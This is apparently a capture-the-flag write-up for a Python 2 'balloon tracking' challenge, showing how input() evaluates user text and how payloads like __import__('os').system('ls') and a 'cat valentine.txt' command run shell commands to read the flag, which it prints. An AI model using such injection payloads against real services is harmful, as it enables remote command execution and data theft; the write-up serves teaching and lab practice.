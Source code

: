 
## Challenge 

**Category:  pwn

Starting off with a bag (pop)! I ordered a bunch of Valentine's Day-themed balloons, and I'm so excited about them! Here's the portal I use to track my order.
Look for "valentine.txt."
**Author:** Manav (0xmmalik)
`nc 0.cloud.chals.io 34293`

## Information

We are given balloons.py and told to look for 'valentine.txt', the script is running on a server so we netcat into the chall.
ballons.py: 
```python
from balloon_tracking_lookup import get_status

print "Welcome to your balloon order-tracking portal! Enter your tracking number here.\n"
tracking_number = input(">>> ")

try:
  print "Getting status for order #" + str(int(tracking_number)) + "..."
except:
  print "Invalid tracking number!"

print get_status(int(tracking_number))
```
## Thought Process 

First thing I noticed was that its written in python2.
Next, i see its importing another script 'get_status' from 'balloon_tracking_lookup'
```python
from balloon_tracking_lookup import get_status
```
looking further, its expecting us to input a string and assign it to variable "tracking_number"
```python
tracking_number = input(">>> ")
```
then, we get pushed into a try: except: in which the string is converted into an int, if python is unable to convert that string into an int, we get "Invalid tracking number!"
but, if all is well and no errors occur, "tracking_number" gets passed to get_status(), type casted into an int. 

Lets see if we can make the script behave in an unexpected way. 
```shell
jacob@ubuntu:~$  nc 0.cloud.chals.io 34293 

Welcome to your balloon order-tracking portal! Enter your tracking number here.
1

>>> Getting status for order #1...

Tracking number not found!
```

More or less expected, we passed the number 1 as a string, which was type casted into an int and passed to get_status() we can confirm that it was passed to get_status because the message we receive 
```shell
Tracking number not found!
```
Is not present in the 'ballons.py' script that we get to look at so we know thats coming from get_status.

Ok, now lets pass something unexpected.
```shell
jacob@ubuntu:~$ nc 0.cloud.chals.io 34293

Welcome to your balloon order-tracking portal! Enter your tracking number here.
something unexpected

>>> 
jacob@ubuntu:~$
```

Interesting, we aren't given any output.
Now lets try to get funky, can we type cast and throw an error? 
```shell
jacob@ubuntu:~$ nc 0.cloud.chals.io 34293

Welcome to your balloon order-tracking portal! Enter your tracking number here.
str("something funky")

>>> Invalid tracking number!
```
Now we know it's throwing an exception because we are given the expected output for that logic.
The question now is, can we force it to be passed to get_status anyway? lets try treating it as a variable instead of putting it in quotes.
```shell
jacob@ubuntu:~$ nc 0.cloud.chals.io 34293

Welcome to your balloon order-tracking portal! Enter your tracking number here.
str(funky)

>>> 
jacob@ubuntu:~$ 
```
alright! now it's beeing evaluated by get_status, can we make it perform logic? 

```shell
jacob@ubuntu:~$ nc 0.cloud.chals.io 34293

Welcome to your balloon order-tracking portal! Enter your tracking number here.

str(42+42)

>>> Getting status for order #84...

Tracking number not found!
```
Whoops, looks like get_status is using the dnagerous eval() function to check the numbers. We should be able to force it to execute our own arbitrary code.

## Solution

Because eval() is being used, we can force it to import os and execute shell commands. These are the things i tried until i found one that worked
```python

("__import__('os').system('ls')")

(import('os').system('ls'))


"__import__('os').system('ls')"


"__import__('os').system('ls')"


(__import__('os').system('ls'))

```

The working command:
```shell
jacob@ubuntu:~$ nc 0.cloud.chals.io 34293

Welcome to your balloon order-tracking portal! Enter your tracking number here.

(__import__('os').system('ls'))

Dockerfile
balloon_tracking_lookup.py
balloon_tracking_lookup.pyc
balloons.py
start.sh
valentine.txt

>>> Getting status for order #0...

Tracking number not found!
```
As you can see, we listed the files in the current directory. To dump the flag we just have to cat valentine.txt
```shell
jacob@ubuntu:~$ nc 0.cloud.chals.io 34293

Welcome to your balloon order-tracking portal! Enter your tracking number here.

(__import__('os').system('cat valentine.txt'))

valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}>>> Getting status for order #0...

Tracking number not found!
```

## Flag

```
valentine{0ops_i_go7_hydrog3n_ball00n5_NONOWHEREAREYOUGOINGWITHTHATLIGHTER}
```